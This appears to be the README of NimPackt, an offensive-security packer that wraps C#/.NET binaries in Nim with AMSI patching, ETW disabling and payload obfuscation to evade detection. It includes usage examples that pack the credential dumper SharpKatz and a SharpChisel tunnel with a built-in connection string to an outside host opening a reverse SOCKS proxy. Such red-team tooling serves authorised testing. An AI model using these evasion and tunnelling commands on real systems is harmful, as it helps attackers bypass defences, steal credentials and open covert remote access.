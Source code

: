 ![NimPackt](assets/Nimpackt-Logo-Blacktext.png)

# A Nim-based packer for C# / .NET executables

## Description

> ⚠ NimPackt is still under active development and will contain bugs/oversights/flaws. Though generated binaries should be OpSec-safe, please verify this yourself before deploying them in active engagements. Kthx.

NimPackt is a Nim-based packer for C# / .NET executables. It automatically wraps these executables (along with its arguments) in a Nim binary that is compiled to Native C and as such harder to detect or reverse engineer. Currently, it has the following features.

- Patching the Anti-Malware Scan Interface (AMSI)
- Disabling Event Tracing for Windows (ETW)
- Payload encoding to prevent static analysis
- Obfuscating static strings used in the binary
- Supports cross-platform compilation (from both Linux and Windows)
- Supports both x64/x86 compilation (make sure to grab the right architecture for the ingested binary)

A great source for C#-based binaries for offensive tooling can be found [here](https://github.com/Flangvik/SharpCollection). It is highly recommended to compile the C# binaries yourself. You should replace strings for, as well as obfuscate, sensitive binaries (like Mimikatz) to avoid fingerprinting.

If you want to go all-out on OpSec, you could re-pack the Nim binary using a tool like [PEzor](https://github.com/phra/PEzor) to remove userland hooks (until Project5 is supported) or even launch it from memory using CobaltStrike, though this is a bit beyond the purpose of NimPackt 😙

## Installation

On **Linux**, simply install the required packages and use the Nimble package installer to install the required packages. Then you're good to go!

```
sudo apt install -y python3 mingw-w64 nim
nimble install winim strenc base64
```

On **Windows**, execute the Nim installer from [here](https://nim-lang.org/install_windows.html). Make sure to install `mingw` and set the path values correctly using the provided `finish.exe` utility, then install the required packages as follows.

```
nimble install winim strenc base64
```

## Usage

```
usage: NimPackt.py [-h] -i INPUTFILE [-a ARGUMENTS] [-32] [-H] [-na] [-ne] [-v] [-V]

required arguments:
  -i INPUTFILE, --inputfile INPUTFILE
                        C# .NET binary executable to wrap

optional arguments:
  -a ARGUMENTS, --arguments ARGUMENTS
                        Arguments to "bake into" the wrapped binary, or "PASSTHRU" to accept run-time arguments (defaults to empty string)
  -32, --32bit          Compile in 32-bit mode
  -H, --hideapp         Hide the app frontend (console output) by compiling it in GUI mode
  -na, --nopatchamsi    Do NOT patch (disable) the Anti-Malware Scan Interface (AMSI)
  -ne, --nodisableetw   Do NOT disable Event Tracing for Windows (ETW)
  -v, --verbose         Print debug messages of the wrapped binary at runtime
  -V, --version         show program's version number and exit
```

**Examples:**

```
# (Windows) Pack SharpKatz to accept commands at runtime, patch AMSI and disable ETW while printing verbose messages on runtime 
# Note that applications may crash silently if you pass the wrong arguments in PASSTHRU mode (depending on the application)
python3 .\NimPackt.py -v -i .\SharpBins\SharpKatz-x64.exe -a "PASSTHRU"

# (Linux) Pack SharpChisel with a built-in ChiselChief connection string, do not patch AMSI or disable ETW, hide the application window on runtime
python3 NimPackt.py -H -i /tmp/SharpChisel.exe -a 'client --auth nimpackt.demo_A:718nubCpwiuLUW --keepalive 25s --max-retry-interval 25s https://chisel.azurewebsites.net R:10073:socks'
```

## Known issues

- The `-H` flag doesn't seem to properly hide the output of the executed bytes (the executed assembly). This probably relates to C# compiling options, need to investigate this further.

## Wishlist

- Support shellcode wrapping using separate Nim templates
- Replace encoding with encryption
- Provide option to deploy `Project5` to unhook API calls before execution
- Provide option to pack as dll library